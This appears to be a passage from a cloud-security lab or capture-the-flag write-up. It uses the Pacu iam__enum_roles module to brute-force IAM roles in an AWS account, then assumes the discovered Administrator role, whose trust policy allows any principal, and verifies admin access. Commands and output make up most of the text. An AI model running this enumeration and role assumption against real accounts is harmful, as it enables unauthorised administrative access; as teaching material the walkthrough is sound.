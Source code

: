 Now let's run the `iam__enum_roles` module to brute force IAM roles.
```
run iam__enum_roles --role-name IAMEnum --account-id 104506445608
```
```
Pacu (labs:None) > run iam__enum_roles --role-name IAMEnum --account-id 104506445608
  Running module iam__enum_roles...
[iam__enum_roles] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name and are allowed to use sts:AssumeRole to try and assume any enumerated roles!

[iam__enum_roles] Targeting account ID: 104506445608

[iam__enum_roles] Starting role enumeration...


[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/APIGateway

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/Administrator

[iam__enum_roles]   Found role: arn:aws:iam::104506445608:role/AutoScaling

<SNIP>
```

It found few roles. Moreover, `pacu`



We could also assume role via AWS cli
```
aws sts assume-role --role-arn arn:aws:iam::104506445608:role/Administrator --role-session-name IAMEnum
```

We should receive keys and session token. Set keys with `aws configure`, then set session token with the following command
```
aws configure set aws_session_token "<session token>"
```

We can confirm that we successfully assumed `Administrator` role
```
└─$ aws sts get-caller-identity
{
    "UserId": "AROARQVIRZ4UAFUYOQHO7:IAMEnum",
    "Account": "104506445608",
    "Arn": "arn:aws:sts::104506445608:assumed-role/Administrator/IAMEnum"
}

```

We can enumerate role
```
└─$ aws iam get-role --role-name Administrator
{
    "Role": {
        "Path": "/",
        "RoleName": "Administrator",
        "RoleId": "AROARQVIRZ4UAFUYOQHO7",
        "Arn": "arn:aws:iam::104506445608:role/Administrator",
        "CreateDate": "2023-06-27T12:40:47Z",
        "AssumeRolePolicyDocument": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Principal": {
                        "AWS": "*"
```
